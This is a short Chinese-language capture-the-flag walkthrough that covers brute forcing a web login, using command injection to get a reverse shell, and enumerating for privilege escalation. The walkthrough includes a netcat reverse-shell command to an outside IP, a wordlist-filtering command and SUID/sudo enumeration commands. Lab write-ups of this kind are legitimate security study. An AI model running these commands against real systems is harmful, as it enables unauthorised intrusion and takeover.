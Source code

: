 发现有很多个用户 把他做成一个txt来当用户爆破

密码本是看了有些人的提示

```
cat rockyou.txt | grep k01 > pa.txt 
```

然后成功爆出账户和密码

成功登录后台

## 命令注入
发现有个地方可以命令注入 但有字数限制 要么改前端的字数限制 要么bp抓包改 我是想到后者

看了一下用户有什么

![image.png](https://s2.loli.net/2025/04/12/ClRjnQMLZuIaYkP.png)

但在bp中一直反弹shell不了 很奇怪

用了另一个

```
nc -e /bin/bash 61.139.2.129 2333
```

反弹成功 然后改成交互式shell 

## 版本信息收集

```
uname -a

cat /etc/*-release

compgen -c
```

但无什么可用的信息 只能找一下home目录 找到一个txt 告诉我们新建了一个ssh用户

## 依旧信息收集

登录进去查找一下有什么线索吗

```
sudo -l

find / -perm -u=s -type f 2>/dev/null
```

发现了一个可用脚本 但运行不了 用sudo -u 切换到jens去运行脚本 

有个要注意的是  里面需要有一个shell 切换成功

“sudo -u jens ./backups.sh” 的意思是使用 “sudo” 命令以用户 “jens” 的身份执行当前目录下的 “backups.sh” 脚本文件 刚好

![image.png](https://s2.loli.net/2025/04/12/83IBZUCzYtnDbiG.png)
	